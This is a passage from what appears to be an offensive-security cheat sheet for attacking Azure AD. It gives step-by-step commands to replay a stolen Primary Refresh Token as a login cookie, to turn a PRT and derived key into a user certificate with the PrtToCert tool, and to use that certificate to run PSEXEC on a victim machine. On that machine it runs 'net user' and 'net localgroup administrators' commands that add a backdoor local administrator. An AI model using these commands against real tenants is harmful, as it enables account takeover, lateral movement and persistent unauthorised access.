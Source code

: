 ⧉ Copied!

The `<Signed JWT>` (JSON Web Token) can be used as PRT cookie in a (anonymous) browser session for https://login.microsoftonline.com/login.srf.
Edit the Chrome cookie (F12) -> Application -> Cookies with the values:

```powershell
Name: x-ms-RefreshTokenCredential
Value: <Signed JWT>
HttpOnly: √
```

⧉ Copied!

:warning: Mark the cookie with the flags `HTTPOnly` and `Secure`.

## Pass The Certificate

```ps1
Copy-Item -ToSession $jumpvm -Path C:\Tools\PrtToCertmaster.zip -Destination C:\Users\Username\Documents\username –Verbose
Expand-Archive -Path C:\Users\Username\Documents\username\PrtToCert-master.zip -DestinationPath C:\Users\Username\Documents\username\PrtToCert

# Require the PRT, TenantID, Context and DerivedKey
& 'C:\Program Files\Python39\python.exe' C:\Users\Username\Documents\username\PrtToCert\RequestCert.py --tenantId <TENANT-ID> --prt <PRT> --userName <Username>@<TENANT NAME>.onmicrosoft.com --hexCtx <HEX-CONTEXT> --hexDerivedKey <HEX-DERIVED-KEY>
# PFX saved with the name <Username>@<TENANT NAME>.onmicrosoft.com.pfx and password AzureADCert
```

⧉ Copied!

Python tool that will authenticate to the remote machine, run PSEXEC and open a CMD on the victim machine

https://github.com/morRubin/AzureADJoinedMachinePTC

```ps1
Main.py [-h] --usercert USERCERT --certpass CERTPASS --remoteip REMOTEIP
Main.py --usercert "admin.pfx" --certpass password --remoteip 10.10.10.10

python Main.py --usercert C:\Users\Username\Documents\username\<USERNAME>@<TENANT NAME>.onmicrosoft.com.pfx --
certpass AzureADCert --remoteip 10.10.10.10 --command "cmd.exe /c net user username Password@123 /add /Y && net localgroup administrators username /add"
```

⧉ Copied!

## Intunes Administration

Requirements:

- **Global Administrator** or **Intune Administrator** Privilege : `Get-AzureADGroup -Filter "DisplayName eq 'Intune Administrators'"`
